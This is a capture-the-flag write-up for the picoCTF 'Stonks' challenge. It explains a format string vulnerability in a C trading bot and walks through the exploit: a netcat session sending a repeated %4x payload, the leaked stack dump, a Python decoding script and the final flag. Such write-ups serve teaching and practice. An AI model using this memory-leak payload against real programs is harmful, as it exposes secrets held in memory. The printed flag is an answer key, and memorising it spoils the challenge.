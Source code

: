 # Stonks

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](vuln.c) `nc mercury.picoctf.net 27912`


## Hints

1. Okay, maybe I'd believe you if you find my API key.

### Solution

After examining the source code [vuln.c](vuln.c), I noticed that there are two places that take user input:


1. Line `136`: To select what we would like to do after running the application
1. Line `91`: To get the user provided API token


Immediately, I realized that we could combine line `91` with line `93` to leak the data on the stack.


Since the user API token string is unchecked user input, we could use a [Format String Vulnerability](https://en.wikipedia.org/wiki/Uncontrolled_format_string) to print the stack.


Before we could explain the exploit, it's important to understand the memory layout in [C](https://en.wikipedia.org/wiki/C_(programming_language)).


![C Memory Layout](memory_layout.png)


The stack is growing down! For historical reasons, the code segment starts from address zero upwards, and the stack starts at the end of the memory and grows downwards. For more information please read [Why does the stack grow downward?](https://softwareengineering.stackexchange.com/questions/137640/why-does-the-stack-grow-downward).


Thus, whenever a new function is called the [call stack](https://en.wikipedia.org/wiki/Call_stack) is growing downwards. However any strings on the stack continue to grow upwards.

![Call stack](call_stack.png)

![String growth on the stack](string_growth.png)


Now that we understand the memory layout in `C`, it's now important to understand [printf format string](https://en.wikipedia.org/wiki/Printf_format_string).


A [printf](https://cplusplus.com/reference/cstdio/printf/) begins with a `%`. `Printf` allows us to print an unsigned hexadecimal integer by providing `%x` in the format string. However, when we don't provide another argument to `printf` other than the format string (which is exactly the case on line 93), then `%x` would print some memory content of the `printf` stack frame. Also, considering that the stack grows down, and strings grow upwards, we could leak the memory content of the previous stack frame.


This is how the call stack should look for [vuln.c](vuln.c):

```
----------
main
----------
buy_stonks
----------
printf          # Line 93
----------
```

Thus, when we pass `%x` as the `API token` then we back data on the stack.

```shell
$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
9e0a390
Portfolio as of Fri Jan 27 03:44:46 UTC 2023


1 shares of UH
6 shares of XE
5 shares of BEAN
954 shares of VXLE
402 shares of FOUK
Goodbye!
```


However, we could pass in many more `%x` as the `API token`. More precisely, we could pass in an API token that is up to 300 characters long. This length limit is set by line 91.


Considering, that `x86` has a 32 bit [word size](https://en.wikipedia.org/wiki/Word_(computer_architecture)), we want the stack memory printed as 4 bytes. We could do this by setting a [width](https://cplusplus.com/reference/cstdio/printf/) in the format string.


```
%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.
```


Passing the above as the API token returns:

```shell
$ nc mercury.picoctf.net 27912
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.%4x.
Buying stonks with token:
8c86430.804b000.80489c3.f7f16d80.ffffffff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.
Portfolio as of Fri Jan 27 03:51:30 UTC 2023


2 shares of WNQ
1 shares of WV
9 shares of XKLS
4 shares of S
3 shares of A
6 shares of Z
9 shares of PW
22 shares of EBF
1 shares of B
763 shares of VUBQ
Goodbye!
```


Thus, the following is the stack content:

```
8c86430.804b000.80489c3.f7f16d80.ffffffff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.
```


Considering that string grow upwards and the stack grows down, it's possible that the flag (stored on the stack, see line 66) is in that output!


To determine if the flag is in the output, we'll have to clean up the memory content, and convert the hexadecimal values to [ASCII](https://en.wikipedia.org/wiki/ASCII).


However, before we could do any conversion, it's important to understand how bytes are stored in memory. On an [x86](https://en.wikipedia.org/wiki/X86) system, the bytes are stored as [little endian](https://en.wikipedia.org/wiki/Endianness).


![Little Endian](little_endian.png)


I wrote this [Python](https://en.wikipedia.org/wiki/Python_(programming_language)) script, that splits the string into individual words, converts the bytes to ASCII, then reverses the word to account for endianness.


```python
def words_to_ascii(words: list[str]) -> list[str]:
  result = list()

  for word in words:
    char_list = list()
    for i in range(0, 8, 2):
      hex_str = "0x{}{}".format(word[i], word[i+1])
      byte_decimal_value = int(hex_str, 16)
      char_list.append(chr(byte_decimal_value))

    # We reverse the cur_str because x86 is little endian
    char_list.reverse()

    result.append("".join(char_list))

  return result


if __name__ == "__main__":
  raw_word_str = input()
  words = [word.strip() for word in raw_word_str.split(".")]
  words = list(filter(lambda word: len(word) == 8, words))

  print("".join(words_to_ascii(words)))
```


Running this script on the memory content output should print all the ASCII character:


```shell
$ echo '8c86430.804b000.80489c3.f7f16d80.ffffff
ff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.' | python mem_print.py

mñ÷ÿÿÿÿAò÷Çmñ÷picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}Õÿø?õ÷@Dò÷ÇÃQé<Û÷ÀPò÷Àeñ÷`ñ÷ÕÿFÚ÷Àeñ÷¤Õÿ      ó÷`ñ÷ nñ÷ØÕÿPíó÷xñ÷ÇÃQ`ñ÷ØÕÿÄÕÿØÕÿücñ÷ÕÿÕÿÇÃQðÕÿ¡Õ÷`ñ÷`ñ÷¡Õ÷ÕÿÕÿÕÿ
```


Analyzing the output, we see the flag. Lets use [grep](https://en.wikipedia.org/wiki/Grep) to print only the flag.


```shell
$ echo '8c86430.804b000.80489c3.f7f16d80.ffffffff.   1.8c84160.f7f24110.f7f16dc7.   0.8c85180.   2.8c86410.8c86430.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.32666331.30613130.ffd5007d.f7f51af8.f7f24440.51c3c700.   1.   0.f7db3ce9.f7f250c0.f7f165c0.f7f16000.ffd58d98.f7da468d.f7f165c0.8048eca.ffd58da4.   0.f7f38f09.804b000.f7f16000.f7f16e20.ffd58dd8.f7f3ed50.f7f17890.51c3c700.f7f16000.804b000.ffd58dd8.8048c86.8c84160.ffd58dc4.ffd58dd8.8048be9.f7f163fc.   0.ffd58e8c.ffd58e84.   1.   1.8c84160.51c3c700.ffd58df0.   0.   0.f7d59fa1.f7f16000.f7f16000.   0.f7d59fa1.   1.ffd58e84.ffd58e8c.ffd58e14.' | python mem_print.py | grep -oa 'picoCTF{.*}'

picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
```


#### Flag
```
picoCTF{I_l05t_4ll_my_m0n3y_1cf201a0}
```